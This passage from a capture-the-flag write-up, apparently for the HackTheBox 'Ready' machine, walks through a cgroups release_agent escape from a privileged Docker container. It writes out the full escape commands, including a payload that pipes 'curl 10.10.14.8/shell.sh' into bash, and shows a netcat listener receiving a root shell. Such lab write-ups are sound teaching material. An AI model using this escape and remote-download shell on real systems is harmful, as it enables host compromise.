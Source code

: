         privileged: true
        restart: unless-stopped
        #mem_limit: 1024m

    networks:
      gitlab:
        driver: bridge
        ipam:
          config:
            - subnet: 172.19.0.0/16



`privileged: true` is a line that's important. This means that the
container has root privileges on the host, and that I can escape.

### cgroups Escape

[This
post](https://blog.trailofbits.com/2019/07/19/understanding-docker-container-escapes/)
has a nice POC that works to execute a command on the host from a
privileged container. It runs `ps`, but I'll modify that to run the same
reverse shell from earlier:



    root@gitlab:~# d=`dirname $(ls -x /s*/fs/c*/*/r* |head -n1)`
    root@gitlab:~# mkdir -p $d/w;echo 1 >$d/w/notify_on_release
    root@gitlab:~# t=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
    root@gitlab:~# echo $t/c >$d/release_agent;printf '#!/bin/sh\ncurl 10.10.14.8/shell.sh | bash' >/c;
    root@gitlab:~# chmod +x /c;sh -c "echo 0 >$d/w/cgroup.procs";



Those commands may look like complete nonsense on first glance. I
created a [follow-on post](/digging-into-cgroups.md)
digging into this.

On running the last command, I get a request for `shell.sh` at my Python
webserver, and then a shell at a listening `nc` on my VM:



    oxdf@parrot$ nc -lnvp 443
    listening on [any] 443 ...
    connect to [10.10.14.8] from (UNKNOWN) [10.10.10.220] 51066
    id                                                  
    uid=0(root) gid=0(root) groups=0(root)



I can upgrade my shell just like above, and access `root.txt`:



    root@ready:/root# cat root.txt
    b7f98681************************



### File System Escape
